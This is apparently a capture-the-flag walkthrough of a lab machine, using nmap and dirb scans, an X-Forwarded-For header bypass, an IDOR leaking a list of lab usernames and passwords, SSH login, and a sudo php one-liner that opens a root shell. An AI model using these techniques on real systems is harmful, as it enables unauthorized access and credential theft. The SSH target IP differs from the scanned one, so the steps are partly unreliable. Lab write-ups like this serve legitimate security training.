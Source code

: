# Table of Contents

- [Enumeration](#enumeration)
- [Penetration](#penetration)
- [Privilege Escelation](#privilege-escelation)


---

## Enumeration: 
- VM IP: `sudo netdiscover`

	* `VMWare 192.168.0.14`
	
- VM info: `nmap -A -T4 -v 192.168.0.14`

	* <pre>
	  22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
	  80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
	  </pre>
	  
- web Server Directory: `dirb -w http://192.168.0.14`

	* <pre>
	  http://192.168.0.14/index.php
	  http://192.168.0.14/misc/process.php
	  http://192.168.0.14/config/config.php
	  http://192.168.0.14/heyhoo.txt
	  </pre>

## Penetration:
- *index.php* requires local machine access
- Header capture/info with **Fiddler**
- Customize header with a browser extension(simply add `X-Forwarded-For: 0.0.0.0`)
- Local access granted 
- Register page: http://192.168.0.14/index.php?page=register
- Login page: http://192.168.0.14/index.php?page=login
- Profile page: http://192.168.0.14/index.php?page=profile&user_id=13
- `form action="#"` -> POSTS data on index.php?page=profile
- *user_id* allows to get all the name,uname,pass values 
- uname:pass list 
	* <pre>
	  1.eweuhtandingan:skuyatuh
	  2.aingmaung:qwerty!!!
	  3.sundatea:indONEsia
	  4.sedihaingmah:cedihhihihi
	  5.alice:4lic3  <--------------- Alice's credentials
	  6.abdikasepak:dorrrrr
	  </pre>
- `ssh 192.168.1.13 -l alice`
- Login in and capture **first flag**
			
## Privilege Escelation:
- `sudo -l`:
	* alice has root access on /usr/bin/php
- `sudo php -r 'shell_exec("sudo /bin/bash -i 1>&0");'`
- Root access granted
- `cd /root && cat flag*` and capture the **second flag**





